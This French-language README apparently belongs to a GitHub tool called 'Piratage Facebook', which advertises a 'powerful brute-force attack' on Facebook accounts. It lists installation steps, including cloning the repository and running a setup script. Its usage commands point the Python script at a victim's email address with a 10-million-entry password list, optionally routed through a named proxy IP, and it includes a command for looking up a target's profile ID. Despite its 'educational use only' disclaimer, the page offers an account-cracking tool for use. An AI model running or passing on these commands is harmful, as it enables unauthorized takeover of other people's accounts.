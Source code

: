 Piratage Facebook

![image](file_00000000232c61fd91fb311b1688247b.png)
###### Puissante attaque par force brute sur Facebook.
***
### <p align="center">Commandes pour exécuter l'outil dans votre terminal Termux et Kali Linux
***

```bash
Remarque : Cet outil est conçu à des fins éducatives uniquement.
Veuillez ne pas endommager les appareils de qui que ce soit.
C'est pour juste testée, pas pour se venger.
 by rebelle masque 
```
## Langage utilisé pour créer cet outil :
- Python

## L'outil est compatible avec :
- Windows
- Kali Linux
- Android~Termux
- macOS
- Tous les systèmes d'exploitation utilisent Python (2.x, 3.x) avec les modules requis.

###### Installation
```bash
apt update && apt upgrade -y
```
```bash
apt install git -y
```
```bash
git clone https://github.com/RebelleMasque/Facebook_force-bruit-spy.git
```
```bash
cd Facebook_force-bruit-spy
```
```bash
bash setup
```
```bash
python facebook_hack.py
```

## Utilisation :
- **Vous pouvez utiliser Victim Adresse e-mail ou identifiant de profil Facebook** :

- **Force brute sur un compte Facebook sans proxy** :

* **Commande** : python facebook_hack.py -t victim@gmail.com -w 10MPASS.txt

- **Force brute sur un compte Facebook avec proxy** :

* **Commande** : python facebook_hack.py -t victim@gmail.com -w 10MPASS.txt -p 144.217.101.245:3129

- **Obtenir l'identifiant de profil Facebook cible** :

* **Commande** : python facebook_hack.py -g https://www.facebook.com/exemple
